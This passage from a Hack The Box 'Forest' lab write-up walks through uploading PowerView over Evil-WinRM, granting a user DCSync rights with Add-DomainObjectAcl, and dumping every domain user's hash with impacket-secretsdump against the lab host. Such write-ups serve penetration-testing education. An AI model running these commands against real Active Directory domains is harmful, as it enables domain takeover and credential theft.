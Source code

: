 By adding the user to the _Remote Management Users_ group, we avoid the use of _PSCredentials_, which are normally used to execute commands with another user’s credentials, which personally caused conflicts with `PowerView`.

Next, we will close the current `Evil-WinRM` session and reconnect with the newly created user. Once connected as the new user, we will download the [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) script to our machine, which is part of `PowerSploit` (a collection of PowerShell scripts). As before, we will upload it using `Evil-WinRM` and then import it:

```powershell
upload PowerView.ps1
Import-Module .\PowerView.ps1
```

![28](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2024-08-19-Forest-Hack-The-Box/28.png){:class="blog-image" onclick="expandImage(this)"}

Once imported, we will use the `Add-DomainObjectAcl` function to grant `DCsync` permissions to our newly created user:

```bash
Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity username -Rights DCSync
```

![29](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2024-08-19-Forest-Hack-The-Box/29.png){:class="blog-image" onclick="expandImage(this)"}

With `DCsync` permissions granted to our user, we can use `secretsdump`, another script from the `Impacket` suite, to dump all domain users’ hashes:

```bash
impacket-secretsdump htb.local/username:password@10.10.10.161
```

![30](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2024-08-19-Forest-Hack-The-Box/30.png){:class="blog-image" onclick="expandImage(this)"}
